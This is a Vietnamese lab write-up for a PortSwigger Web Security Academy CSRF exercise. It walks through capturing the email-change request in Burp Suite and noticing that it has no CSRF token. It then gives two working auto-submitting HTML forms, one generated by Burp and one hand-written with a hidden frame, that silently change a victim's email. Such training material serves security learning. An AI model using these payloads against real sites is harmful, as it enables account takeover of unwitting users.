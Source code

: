 # CSRF vulnerability with no defenses

### Yêu cầu: Tạo thẻ HTML để tấn công CSRF thay đổi email của tài khoản người dùng

### Hướng làm: 

Đầu tiên, ta đăng nhập vào tài khoản mà đề bài đã cho `weiner:peter`

Tiếp đến chúng ta sẽ bắt request của chức năng đăng nhập bằng BurpSuite

![image](https://user-images.githubusercontent.com/72268643/157409274-bddd16d6-d281-41e0-b446-5b87df7e372e.png)

Sau khi gửi tới Repeater, ta thấy rằng việc thay đổi này chỉ yêu cầu mỗi param email chứ không có CSRF token để xác thực

![image](https://user-images.githubusercontent.com/72268643/157410346-4caf3deb-6af4-48ea-90b7-aaaebe3a5ad6.png)

Vậy nên ta đã có đủ điều kiện tấn công (thay đổi email, phiên user, không có param trống)

Chúng ta có thể sử dụng công cụ `Generate CSRF PoC` của BurpSuitePro để sinh ra 1 đoạn code HTML để upload luôn trên server

![image](https://user-images.githubusercontent.com/72268643/157411439-88742410-2c8c-402b-ac62-000486524e94.png)

Sau đó ta copy đoạn HTML ở dưới rồi gửi lên phía server nạn nhân

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ace11f521f4b1b0fc0623988009700c5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="victim&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Hoặc chúng ta có thể tự viết PoC theo cách sau:
```
<html>
  <body>
    <h1>Hello World</h1> <!-- Phần được hiển thị -->
    <iframe style="display:none;" name="csrf-iframe"></iframe> <!-- Để ẩn thẻ form khi hiển thị tới nạn nhân -->
    <form action="nơi_khai_thác_CSRF_ở_trên_trang_web_đó" method="post" id="csrf-form">
      <input type="hidden" name="email" value="email_mà_bạn_muốn_đổi">
    </form>

    <script>document.getElementById("csrf-form").submit()</script> <!-- Phần tự submit form thực thi -->
  </body>
</html>
```

![image](https://user-images.githubusercontent.com/72268643/157412962-53524799-b782-47ee-a863-8419e3c3e21a.png)

Store và hoàn thành lab

